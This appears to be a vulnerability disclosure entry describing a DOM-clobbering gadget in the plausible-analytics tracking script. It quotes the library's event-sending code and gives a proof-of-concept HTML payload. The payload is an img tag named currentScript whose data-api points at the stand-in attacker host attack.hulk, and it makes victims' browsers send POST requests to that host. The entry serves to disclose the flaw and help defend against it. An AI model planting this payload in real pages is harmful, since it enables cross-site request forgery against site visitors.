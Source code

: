 ## plausible-analytics

### Meta

+ Library: plausible-analytics
+ Stars: 19.7K
+ Version: v2.1.0
+ Fingerprint: `window.plausible !== undefined`
+ Payload: ```<img name="currentScript" data-domain="attack.hulk" data-api="https://attack.hulk">```
+ Impact: CSRF
+ CVE: N/A
+ Status: Reported
+ Security Policy: Email
+ Foundby: TheHulk

### Library

https://github.com/plausible/analytics

### Vulnerable Code Snippet

```javascript
    var a = window.location
      , r = window.document
      , o = r.currentScript
      , l = o.getAttribute("data-api") || new URL(o.src).origin + "/api/event";
    function s(t, e) {
        t && console.warn("Ignoring Event: " + t),
        e && e.callback && e.callback()
    }
    function t(t, e) {
        if (/^localhost$|^127(\.[0-9]+){0,2}\.[0-9]+$|^\[::1?\]$/.test(a.hostname) || "file:" === a.protocol)
            return s("localhost", e);
        if ((window._phantom || window.__nightmare || window.navigator.webdriver || window.Cypress) && !window.__plausible)
            return s(null, e);
        try {
            if ("true" === window.localStorage.plausible_ignore)
                return s("localStorage flag", e)
        } catch (t) {}
        var i = {}
          , n = (i.n = t,
        i.u = a.href,
        i.d = o.getAttribute("data-domain"),
        i.r = r.referrer || null,
        e && e.meta && (i.m = JSON.stringify(e.meta)),
        e && e.props && (i.p = e.props),
        new XMLHttpRequest);
        n.open("POST", l, !0),
        n.setRequestHeader("Content-Type", "text/plain"),
        n.send(JSON.stringify(i)),
        n.onreadystatechange = function() {
            4 === n.readyState && e && e.callback && e.callback({
                status: n.status
            })
        }
    }
```

## PoC

```html
<!--Library-->
<script defer data-domain="mydomain.com" src="https://plausible.io/js/script.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-domain="attack.hulk" data-api="https://attack.hulk">
<!--Payload-->
```

The gadgets helps attacker to send arbitrary post request to arbitrary domain on the vicitim's browser. 